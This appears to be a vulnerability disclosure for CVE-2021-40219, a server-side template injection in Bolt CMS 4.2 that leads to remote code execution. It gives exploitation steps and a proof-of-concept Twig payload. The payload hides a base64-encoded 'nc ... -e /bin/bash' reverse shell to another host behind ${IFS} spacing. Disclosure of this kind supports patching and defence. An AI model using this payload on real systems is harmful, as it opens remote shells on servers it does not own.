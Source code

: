 
<h1>CVE-2021-40219</h1>


```Bolt CMS```


SSTI to Remote Code Execution


Reported by S1lv3r

```Description :```

The vulnerability exists on core/src/Controller/Frontend/TemplateController.php, 
unsave rendering allow an authenticated attacker to abuse it using server-side template injection
vulnerability that lead to remote code execute with bypass array error restriction with "join” filter

TemplateController.php line 25:
return $this->render($templates, []);

1- The authenticated user edit theme by going to file management -> view/edit themes

2- Inject our PoC payload that will run system command

3- Go to Edit Page then create new page and choose our malicious template

4- Go to RCE-PoC page (using step 3) to trigger execution : http://127.0.0.1/page/RCE-PoC


```Version :```
BoltCMS Latest Version 4.2 ( GitHub's latest version 8/23/2021 )

```Attack Type:```
Remote

```Impact :```
Remote Command Execution


```PoC : ```

``` python 

{{['echo${IFS}-n${IFS}"bmMgMTAuMC4yLjE1IDQ0MyAtZSAvYmluL2Jhc2g="${IFS}|${IFS}base64${IFS}-
d${IFS}|bash']|filter('system')|join(', ') }}

```
```References:```
https://github.com/bolt/core/blob/3b21a73ebf519b76756d3ad2841312d10ef11461/src/Controller/Frontend/TemplateController.php#L25 
